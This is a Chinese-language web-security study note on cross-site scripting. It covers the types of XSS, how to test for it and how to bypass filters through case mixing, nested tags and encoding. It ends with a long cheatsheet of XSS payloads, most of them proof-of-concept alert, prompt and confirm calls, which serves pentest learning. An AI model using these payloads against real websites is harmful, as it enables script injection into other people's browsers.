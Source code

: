 ## Cross-Site Scripting  
[同源策略](https://github.com/shinmao/Web-Security-Learning/blob/master/XSS/Same-Origin%20Policy.md)    
1. reflected xss (非持久型):    
  
2. stored xss (持久型):  
Forum或者留言板中, 在文本中加入script. (前端可能用ajax讀取內容  
  
3. DOM xss:   
注意: reflective型 以及 stored型 才會與server有互動，因為server需要解析惡意代碼，而DOM型則是完全由客戶端js執行。  

## XSS Vulnerability exists?
這裡先不談XSS探針...  
我習慣直接注入sciprt語句作測試，常見語句如下:  
```js
<script>alert(/1/);<script>
<a href=1 onload=alert(1)>hi</a>
```
在這裏個人認為較重要的是分析注入點對網頁產生的影響，我注入的惡意代碼沒有作用可能有兩種原因：  
1. 網頁不存在可利用的xss漏洞，可能注入點直接將值插入網頁作為內容  
2. 惡意代碼被過濾掉，或者轉譯了 -> 這種情況下就要分析有沒有代替字元來繞過過濾名單，或者繞過轉譯！

## 常見限制 < 對抗手勢
* filter 對一些危險標籤做過濾  
  * 大小寫混用  
  * 一次過濾繞過  
```php
str_replace('<script>','',$GET['hi'])  //這裏代表hi中的<script>會變空字串
// <scr<script>ipt> 
```  
  * 使用正規表達式高效率的過濾  
```php
preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET['hi'])   // 大寫小寫一次繞過全都會被擋掉
// <img src=1 onerror=alert(1)>
```
* encode 轉譯危險標籤  
  * url encode: % + ASCII(hex) ```%3Cscript%3E```  
  補充js常見處理函式: ```escape()/unescape(), encodeURL()/decodeURL(), encodeURLComponent()/decodeURLComponent()```  
  * html encode  
```php
htmlspecialchars($_GET['hi']);  // 會將特殊字元通通轉譯掉 
// 這種情況下將無法再進行注入
```
  * unicode encode: %u + ASCII(hex)  
  * ascii encode  
  ```js
  eval(String.fromCharCode(97,108,101,114,116,40,49,41))
  // <script>alert(1)</script>
  ```
  String.fromCharCode() 將unicode字碼轉換成字串 [Manual](https://www.w3schools.com/jsref/jsref_fromCharCode.asp)  
  eval() 執行參數中的js語句 [Manual](https://www.w3schools.com/jsref/jsref_eval.asp)  
* length limit  
  * 外部引入自己的script ```<script src=".js"></script>```  
* 未過濾\n類符號  
```js
<img src="javas
cript:
alert(/1/);">
```

## 正規表達式
js中會用正規表達式來過濾危險字符，參考如下文件：  
[Documentation](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Guide/Regular_Expressions#.E9.80.9A.E8.BF.87.E5.8F.82.E6.95.B0.E8.BF.9B.E8.A1.8C.E9.AB.98.E7.BA.A7.E6.90.9C.E7.B4.A2)

## 攻擊手勢  
* script  
```js
<script>a=prompt;a(1)</script>
```
* img  
```js
<img src=1 onmouseover=alert(1)>
<img src=1 onerror=confirm(1)>
<img src="javascript:alert(1);">
```
* svg  
```js
<svg/onload=alert(1)>
```
* body  
```js
<body/onload=javascript:window.onerror=eval;throw'=alert\x281\x29’;>   
// 這種payload也可以繞過括號過濾
```

## Cheatsheet
```php
</script>"><script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>         // 協議解析
</script>"><script>prompt(1)</script>
</ScRiPt>"><ScRiPt>prompt(1)</ScRiPt>
"><script>al\u0065rt(document.domain)</script>
"><script>al\u{65}rt(document.domain)</script>
"><img src=x onerror=prompt(1)>
"><svg/onload=prompt(1)>
"><iframe/src=javascript:prompt(1)>
"><h1 onclick=prompt(1)>Clickme</h1>
"><a href=javascript:prompt(1)>Clickme</a>
"><a href="javascript:confirm%28 1%29">Clickme</a>
"><a href="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+">click</a>
"><textarea autofocus onfocus=prompt(1)>
"><a/href=javascript&colon;co\u006efir\u006d&#40;&quot;1&quot;&#41;>clickme</a>
"><script>co\u006efir\u006d`1`</script>
"><ScRiPt>co\u006efir\u006d`1`</ScRiPt>
"><img src=x onerror=co\u006efir\u006d`1`>
"><svg/onload=co\u006efir\u006d`1`>
"><iframe/src=javascript:co\u006efir\u006d%28 1%29>
"><h1 onclick=co\u006efir\u006d(1)>Clickme</h1>
"><a href=javascript:prompt%28 1%29>Clickme</a>
"><a href="javascript:co\u006efir\u006d%28 1%29">Clickme</a>
"><textarea autofocus onfocus=co\u006efir\u006d(1)>
"><details/ontoggle=co\u006efir\u006d`1`>clickmeonchrome
"><p/id=1%0Aonmousemove%0A=%0Aconfirm`1`>hoveme
"><img/src=x%0Aonerror=prompt`1`>
"><iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;1&rpar;&gt;">
"><h1/ondrag=co\u006efir\u006d`1`)>DragMe</h1>
```
上面的cheatsheet除了有brutexss原有的payload還有一些自己蒐集的!  
[Brute XSS payload by Pgaijin66](https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt)

## Reference
1. The Web Application Hacker's Handbook  
2. [看雪](https://www.kanxue.com)  
3. [烏雲](http://wps2015.org/drops/drops/Bypass%20xss%E8%BF%87%E6%BB%A4%E7%9A%84%E6%B5%8B%E8%AF%95%E6%96%B9%E6%B3%95.html)  
4. [云淡风轻](http://blog.idhyt.com/2014/10/15/technic-xss-bypass/)  
5. [freebuf](http://www.freebuf.com/articles/web/153055.html)  
6. [BruteXSS](https://github.com/shawarkhanethicalhacker/BruteXSS)
